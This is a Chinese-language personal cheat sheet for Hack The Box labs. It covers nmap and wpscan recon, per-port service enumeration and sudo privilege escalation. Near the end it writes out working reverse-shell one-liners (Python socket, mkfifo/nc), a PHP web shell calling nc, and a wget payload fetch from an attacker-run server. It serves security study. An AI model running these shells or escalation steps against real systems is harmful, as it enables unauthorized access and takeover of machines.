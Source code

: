 ## 信息收集

### nmap
nmap 参数详解 https://www.freebuf.com/sectool/264941.html

（以下记录一些HTB中用过的方便再次查找）

标准服务检测：nmap -sV ip //-sV 尝试确定端口服务版本

扫描所有65535端口：nmap -p- ip

sudo nmap -T4 -A -p port ip  //T4 提高扫描速率; A 探测系统类型、服务版本、脚本扫描和跟踪路由

### WPScan
常用命令：

`wpscan --url https://brainfuck.htb --disable-tls-checks --api-token $WPSCAN_API`  //这里使用disable-tls-checks绕过证书检查，不然脚本不会运行。

`wpscan --url https://brainfuck.htb/ --enumerate u` //猜解用户

`wpscan --url https://www.xxxxx.wiki/ -e u --wordlist /root/password.txt` // 暴力破解

`wpscan -u https://www.xxxxx.wiki/ -enumerate p` //扫描插件

### 目录发现

#### dirsearch

1. 遇到 `403 /cgi-bin/`的时候，可以dirbuster、gobuster或者其他目录fuzz工具[进一步探索cgi-bin目录下的后缀名为`cgi​, sh​, ​pl​, ​py...`的文件。](https://twitter.com/_johnhammond/status/1348253792530280448)

#### gobuster 

1. [常用命令1](https://vk9-sec.com/gobuster-how-to/)
2. [常用命令2](https://blog.intigriti.com/2021/07/05/hacker-tools-gobuster/)
3. [原项目](https://github.com/OJ/gobuster)
4. 搜目录：`gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o scans/gobuster-https-root-medium -t 20`

## 端口和用到的端口命令

### port 21 ftp
1. 连接方式：`sudo ftp [ip或者host]`
2. 匿名者登录模式：
   ```
	sudo ftp [ip]
	Connected to [ip].
	220 (vsFTPd 2.3.4)
	Name ([ip]:[id]): anonymous  //这里输入anonymous使用匿名者模式（需要服务器开启anonymous_enable=YES）
	331 Please specify the password.
	Password:					//这里直接回车
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
   ```
3. ftp 内常用命令 https://www.cnblogs.com/answerThe/p/11463117.html
  * 查看文件-get {filename}
  * bye  退出ftp

4. 存在后门的特征
   ```
	21/tcp  open  ftp         vsftpd 2.3.4
   ```

### port 22 SSH

[链接](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)

主要是暴力破解，可挖性比较低

### port 23 Telnet

1. port 23 telnet: telnet {IP} (该说不说这种默认口令port23真的已经很少很少了吧)

### port 25,465,587 SMTP

[Simple Mail Transfer Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#sniffing)

### port 110 POP

[Post Office Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop#hacktricks-automatic-commands)

### port 143 imap

[imap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

### port 139,445 SMB
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
```
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**
```
1. port 139
2. port 445 SMB :
	* smbclient : 用于连接和传输文件的脚本（linux based）
	* 不知道用户账密时：使用访客或匿名模式查看分享文件夹，`smbclient -L {target_IP}`
	* 探知未配置访问控制的分享文件`smbclient \\\\{target_IP}\\{foldername}`

### port 6379
1. port 6379 Redis:
	* redis 未授权访问 https://blog.csdn.net/qq_41210745/article/details/103309137 
	* `info 获取redis信息`， `select {数字} 切换到指定数据库`，`keys * 列出所有key名称`，`get {key} 获取某个key的内容`

## 漏洞利用

### Metasploit

**注意，在打靶机连了VPN的情况下，（主要在反弹shell场景下）需要将本地监听LHOST改为VPN提供的IP**

在exploit跑不通时，排查如下几个方面：
1. 将本地监听LHOST改为VPN提供的IP
2. 注意指定rhost攻击时，可能也需要指定rport
3. `show payloads`拿到实际payload列表自行尝试单个payload
4. 卸载重装最新版本 `sudo apt-get remove --auto-remove metasploit-framework`


## 提权

### 低权限shell提权案例


```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
10.10.10.56> sudo perl -e 'exec "/bin/bash"'
10.10.10.56> whoami
root
```

```
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ 
```

### 反弹shell

```
本地：
sudo nc -nvlp 1111
受害服务器：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
< /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```
root@kali:~/hackthebox/nibbles-10.10.10.75# cat callback.php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"); ?>
```

### 远程文件包含获取shell

```
本地：
sudo python3 -m http.server 80 //shell文件放在开启该命令的文件夹下，如根目录
受害服务器：
wget 10.10.16.2/new.py
```
### 冰蝎联动msf获取反弹shell

https://blog.csdn.net/weixin_45745344/article/details/112321742


